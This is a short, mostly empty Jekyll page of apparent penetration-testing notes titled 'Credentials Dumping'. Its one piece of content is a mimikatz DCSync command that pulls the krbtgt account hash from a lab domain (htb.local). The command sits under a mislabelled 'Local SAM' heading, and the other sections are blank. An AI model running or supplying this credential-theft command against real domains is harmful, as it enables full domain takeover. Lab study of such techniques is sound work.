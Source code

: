 ```yaml
---
title: 2 - Credentials Dumping
author: RFS
date: 2023-06-02
category: Layer 2
layout: post
cover: https://sighingnow.github.io/jekyll-gitbook/assets/dinosaur.gif
---
```


## Local SAM
```powershell
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt

```
## VLANs

## SDP

> ##### TIP
>
> No need to push generated HTML bundle.
{: .block-tip }

[1]: https://pages.github.com
[2]: https://github.com/sighingnow/jekyll-gitbook/fork
[3]: https://pages.github.com/themes
[4]: https://docs.github.com/en/pages/setting-up-a-github-pages-site-with-jekyll/adding-a-theme-to-your-github-pages-site-using-jekyll
[5]: https://github.com/sighingnow/jekyll-gitbook/fork
[6]: https://github.com/sighingnow/jekyll-gitbook/blob/master/_config.yml
